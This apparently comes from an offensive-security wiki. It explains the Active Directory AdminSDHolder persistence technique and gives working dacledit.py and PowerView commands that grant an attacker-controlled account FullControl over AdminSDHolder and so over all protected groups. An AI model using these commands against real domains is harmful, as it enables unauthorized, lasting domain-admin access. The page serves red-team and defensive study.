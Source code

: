# AdminSDHolder

## Theory

AdminSdHolder protects domain objects against permission changes. "AdminSdHolder" either refers to a domain object, a "worker code" or an operation depending on the context.&#x20;

The operation consists in the PDC (Principal Domain Controller) Emulator restoring pre-set permissions for high-privilege users every 60 minutes. Understanding what DACLs/ACEs are and how to abuse them is a requirement to the understanding of this persistence technique (see [Access Controls abuse](../movement/access-controls/)).

The operation is conducted by a "worker code" called **SDProp** (Security Descriptor propagator).&#x20;

SDProp propagates AdminSdHolder's DACL to every protected object every 60 minutes if their DACL is different.

The AdminSdHolder object is located at `CN=AdminSdHolder,CN=SYSTEM,DC=DOMAIN,DC=LOCAL`. For instance, the default AdminSdHolder object's DACL contains the following.

* Authenticated Users: **Read**
* SYSTEM: **Full Control**
* Administrators: **Modify**
* Domain Admins: **ReadAndExecute**
* Enterprise Admins: **ReadAndExecute**

The default protected objects are the following.

* members (possibly nested) of the following groups: `Account Operators`, `Administrators`, `Backup Operators`, `Domain Admins`, `Domain Controllers`, `Enterprise Admins`, `Print Operators`, `Read-only Domain Controllers`, `Replicator`, `Schema Admins`, `Server Operators`
* the following users: `Administrator`, `krbtgt`

{% hint style="info" %}
When talking about AdminSdHolder, the **AdminCount** attribute is usually mentioned. This attribute is automatically set on an object when adding it to a protected group. Originally, the purpose was to improved SDProp's performance. AdminCount cannot be used for malicious purposes and is now mainly informative.
{% endhint %}

## Practice

Once sufficient privileges are obtained, attackers can abuse AdminSdHolder to get persistence on the domain by modifying the AdminSdHolder object's DACL.&#x20;

Let's say an attacker adds the following ACE to AdminSdHolder's DACL: `attackercontrolleduser: Full Control`.

At the next run of SDProp, `attackercontrolleduser` will have a `GenericAll` privilege over all protected objects (Domain Admins, Domain Controllers, and so on).

{% tabs %}
{% tab title="UNIX-like" %}
From UNIX-like systems, this can be done with [Impacket](https://github.com/SecureAuthCorp/impacket)'s dacledit.py (Python).

:warning: _At the time of writing, May 2nd 2022, the_ [_Pull Request (#1291)_](https://github.com/SecureAuthCorp/impacket/pull/1291) _is still pending._

```bash
dacledit.py -action 'write' -rights 'FullControl' -principal 'controlled_object' -target-dn 'CN=AdminSDHolder,CN=System,DC=DOMAIN,DC=LOCAL' 'domain'/'user':'password'
```

AdminSdHolder's DACL can then be inspected with the same utility.

```bash
dacledit.py -action 'read' -target-dn 'CN=AdminSDHolder,CN=System,DC=DOMAIN,DC=LOCAL' 'domain'/'user':'password'
```
{% endtab %}

{% tab title="Windows" %}
This can be done in PowerShell with `Add-DomainObjectAcl` from [PowerSploit](https://github.com/PowerShellMafia/PowerSploit)'s [PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1) module.

```powershell
Add-DomainObjectAcl -TargetIdentity 'CN=AdminSDHolder,CN=System,DC=DOMAIN,DC=LOCAL' -PrincipalIdentity spotless -Verbose -Rights All
```

AdminSdHolder's DACL can then be inspected with `Get-DomainObjectAcl`.

```powershell
# Inspect all AdminSdHolder's DACL
Get-DomainObjectAcl -SamAccountName "AdminSdHolder" -ResolveGUIDs

# Inspect specific rights an object has on AdminSdHolder (example with a user)
sid = Get-DomainUser "someuser" | Select-Object -ExpandProperty objectsid
Get-DomainObjectAcl -SamAccountName "AdminSdHolder" -ResolveGUIDs | Where-Object {$_.SecurityIdentifier -eq $sid}
```
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://adsecurity.org/?p=1906" %}

{% embed url="https://docs.microsoft.com/en-us/archive/blogs/askds/five-common-questions-about-adminsdholder-and-sdprop" %}

{% embed url="https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/how-to-abuse-and-backdoor-adminsdholder-to-obtain-domain-admin-persistence" %}
